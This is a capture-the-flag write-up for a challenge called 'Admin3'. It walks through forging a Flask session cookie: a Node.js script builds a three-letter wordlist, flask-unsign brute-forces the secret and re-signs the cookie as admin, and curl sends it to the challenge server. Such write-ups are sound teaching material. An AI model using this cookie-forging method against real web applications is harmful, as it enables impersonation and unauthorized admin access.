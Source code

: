# Admin3

### Problem

We are given a portion of a website source code which checks for admin status using a Flask cookie. We must find a way to get our flag by pretending to be an admin. 

Right away, I noticed this problem is extremely similar to [Most Cookies](https://github.com/wlmci23/pico21/tree/main/Web%20Exploitation/Most%20Cookies).

### Solution

I received a cookie as follows: 
```
eyJ1c2VyIjoiZ3Vlc3QifQ.YgXSjg.zCxhaDFJ4E_-gCZ5SyGhLTH6dQc
```

According to flask, the first part is a base64 encoded string of json data, second one is the timestamp, and the third is the hash.

Decoding the JSON gives us: 
```
{"user": "guest"}
```

We must change this to admin to receive the flag.

However directly tampering with the cookie won't work, as the hash would be incorrect. We can brute force each possible secret key. 

I used the tool `flask-unsign` to brute force the secret. However, a wordlist must be generated to use a dictionary attack, and since the secret inside the server file is a 3 letter random string, generating a wordlist is very trivial: (here is a Node.js script)
```js
let val = 'abcdefghijklmnopqrstuvwxyz';
let list = ``;
for(let i = 0; i < val.length; i++) { for(let j = 0; j < val.length; j++) { for(let k = 0; k < val.length; k++) {
list+=`${val.charAt(i)}${val.charAt(j)}${val.charAt(k)}\n`;
}}}
require('fs').writeFileSync('wordlist.txt', list);
```

Using the generated wordlist we can brute force the secret with the command: 
```
flask-unsign -u -c eyJ1c2VyIjoiZ3Vlc3QifQ.YgXSjg.zCxhaDFJ4E_-gCZ5SyGhLTH6dQc -w wordlist.txt
```

Which showed us the secret key is `cji`. (note each instance of the challenge can have a different key, due to it's random generation)

According to the app.py file, we must change our user to admin to retrieve the flag. So we can craft a new cookie as follows: 
```
flask-unsign --sign --cookie "{'user':'admin'}" --secret 'cji'
```
Which gave me a cookie: 
```
eyJ1c2VyIjoiYWRtaW4ifQ.YgXTUA.KIGdlldD0DSJOOmKeMmsdhDWFKM
```

Use a curl request with a `Cookie` header: 
```
curl http://656709f.0x16.ink/ -H "Cookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.YgXTUA.KIGdlldD0DSJOOmKeMmsdhDWFKM;"
```

Our flag is then `flag{third_admin}`